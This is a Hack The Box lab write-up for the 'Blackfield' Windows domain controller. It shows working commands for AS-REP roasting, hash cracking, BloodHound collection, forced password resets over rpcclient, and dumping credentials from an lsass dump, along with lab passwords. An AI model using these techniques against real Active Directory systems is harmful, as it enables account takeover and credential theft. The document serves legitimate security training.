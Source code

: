 # Blackfield

## Key Take Aways

* ASREP Roasting
* Force change password
* Lsass dump

## NMAP

``` console
10.129.229.17:53
10.129.229.17:88
10.129.229.17:139
10.129.229.17:135
10.129.229.17:389
10.129.229.17:389
10.129.229.17:445
10.129.229.17:445
10.129.229.17:593
10.129.229.17:3268
10.129.229.17:5985

PORT STATE SERVICE REASON VERSION

53/tcp open domain syn-ack ttl 127 Simple DNS Plus
88/tcp open kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-10-09 16:52:08Z)
135/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
139/tcp filtered netbios-ssn no-response
389/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds? syn-ack ttl 127
593/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp filtered ldapssl no-response
3268/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
3269/tcp filtered globalcatLDAPssl no-response
5985/tcp open http syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp filtered adws no-response
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB

![smb-shares](/HTB/Machines/images/Blackfield-smb-shares.png)

We can get usernames via profles$ share and use it with ASREP Roasting.

``` bash
mask ""
recurse ON
prompt OFF
cd 'path\to\remote\dir'
lcd '~/path/to/download/to/'
mget *
```

## ASREP Roasting

```bash
impacket-GetNPUsers BLACKFIELD.local/ -usersfile user.txt -format hashcat -outputfile hashes.asreproast

hashcat -m 18200 --force -a 0 hashes.asreproast /user/share/worldists/rockyou.txt
```

![GetNPUsers](/HTB/Machines/images/Blackfield-GetNPUsers.png)

![dumphashes](./images/Blackfield-dump-hashes.png)

![smb-svc](./images/Blackfield-SMB-svc.png)

As mentioned above we still can't access the content of the forensic share.

## BloodHound

```bash
bloodhound-python -c all -u "support" -p "#00^BlackKnight" -d blackfield.local -dc dc01.blackfield.local -ns 10.129.229.17 --zip
```

![bloodhound](./images/Blackfield-bloodhound-py.png)

![node-info](./images/blackfield-node-info.png)

![forcechangepassword](./images/Blackfield-ForceChangePassword.png)

## rpcclient

As mentioned at [here](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword) rpcclient gets the job done easier.

```bash
rpcclient -U blackfield.local/support dc01.blackfield.local
```

![rpcclient-changepwd](./images/Blackfield-rpcclient.png)

## Access Foresic share

```bash
nxc smb blackfield.local -u audit2020 -p 'Test!!!!' --shares
```

![smb-shares-audit](./images/Blackfield-audit-smb.png)

![get-forensic](./images/Blackfield-audit-forensic.png)

we can extract lsass.DMP from memory_analysis/lsass.zip

![forensic](./images/Blackfield-forensic.png)

## lsass dump

```bash
pypykatz registry --sam sam system
```

[reference](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux)

![lsassdump](./images/Blackfield-lsass-dump.png)

![user](./images/Blackfield-User.png)
